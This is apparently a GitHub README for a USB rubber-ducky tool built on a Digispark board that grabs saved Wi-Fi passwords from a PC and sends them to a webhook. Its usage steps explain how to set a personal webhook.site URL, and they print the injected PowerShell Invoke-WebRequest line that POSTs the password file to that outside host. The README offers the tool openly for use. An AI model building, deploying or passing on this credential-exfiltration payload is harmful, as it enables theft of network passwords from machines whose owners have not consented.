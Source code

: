 # wifi-grabber-ducky
USB rubber ducky that grabs saved wifi password from pc and sends into a webhook site. This is inspired from Cyber Mentor's [video](https://www.youtube.com/watch?v=uH-4btjE56E&t=248s).

## Requirements
 - [Digispark USB Development Board Attiny85](https://circuit.rocks/products/digispark-usb-development-board-attiny85)
 - [Arduino IDE](https://www.arduino.cc/en/software/)

## Usage
 1. Go to [Webhook Site](https://www.google.com/url?sa=t&source=web&rct=j&opi=89978449&url=https://webhook.site/&ved=2ahUKEwiK_6b4y5GFAxURyzgGHd0CDaAQFnoECAcQAQ&usg=AOvVaw1m2b3mmqgLIDfWa5YwqIcy).
 2. Copy your *unique URL*.
    
    ![image](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/ed3473b1-9af0-492e-96c8-1e8847e36edd)
    
 3. Download *wifi-key-grab.ino* file and edit it using Arduino IDE.
 4. In line 42 or in the line of code below, change the webhook url to your unique URL.
  ```
  DigiKeyboard.println("powershell Invoke-WebRequest -Uri https://webhook.site/2265df61-338c-470f-a0ec-0f6011dc9a16 -Method POST -InFile Wi-Fi-PASS"); //Submitting all passwords on hook
  ```
 5. Once set, compile your program in Arduino IDE.
 6. Plug in your DigiSpark USB, then upload the program.
 7. Enjoy.

## Demo
![wifi-key-grabber-demo](https://github.com/meezlung/wifi-grabber-ducky/assets/65329581/26b95e26-6afd-4644-bdf3-ad73d0abc26b)
